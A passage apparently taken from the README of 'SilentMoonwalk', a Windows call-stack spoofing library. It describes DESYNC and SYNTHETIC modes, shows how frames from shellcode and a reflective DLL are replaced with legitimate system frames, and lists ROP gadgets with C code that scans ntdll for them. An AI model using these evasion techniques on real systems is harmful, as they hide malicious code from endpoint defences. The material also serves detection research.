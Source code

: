 ```c
    &regionSize                // arg4: Region size
);

// Cleanup
SilentMoonwalk_Cleanup(&ctx);
```

### Operating Modes

#### DESYNC Mode (Recommended)
- **Max Arguments**: 4
- **Mechanism**: Replaces suspicious frames with legitimate ones
- **Advantages**: Complete stack hiding, high reliability
- **Use Case**: Most API calls (4 args sufficient for 90% of Windows APIs)

**Example**:
```c
// Original stack (before spoofing):
[unbacked_memory+0x1000] → [shellcode+0x500] → [reflective_dll+0x200]

// After DESYNC spoofing:
[ntdll!RtlUserThreadStart+0x21] → [kernel32!BaseThreadInitThunk+0x14] → [ntdll!LdrInitializeThunk+0x30]
```

#### SYNTHETIC Mode
- **Max Arguments**: 8
- **Mechanism**: Adds fake frames while preserving original
- **Advantages**: Supports more arguments
- **Disadvantages**: Stack remains partially unwindable (may fail strict checks)
- **Use Case**: APIs requiring >4 arguments

### ROP Gadgets Used

**Essential Gadgets**:
1. `pop rbp; ret` - Frame pointer manipulation
2. `pop rcx; ret` - Argument handling
3. `add rsp, 0x20; ret` - Stack adjustment (shadow space)
4. `add rsp, 0x28; ret` - Stack adjustment (shadow space + alignment)
5. `xchg rax, rsp; ret` - Stack pointer swap (advanced)

**Gadget Scanning**:
```c
// Scan ntdll.dll .text section
HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
GADGET_CACHE cache;

// Find pattern: 0x5D 0xC3 (pop rbp; ret)
cache.popRbpRet = FindGadgetPattern(hNtdll, "\x5D\xC3", 2);

// Find pattern: 0x48 0x83 0xC4 0x20 0xC3 (add rsp, 0x20; ret)
cache.addRsp20Ret = FindGadgetPattern(hNtdll, "\x48\x83\xC4\x20\xC3", 5);
```
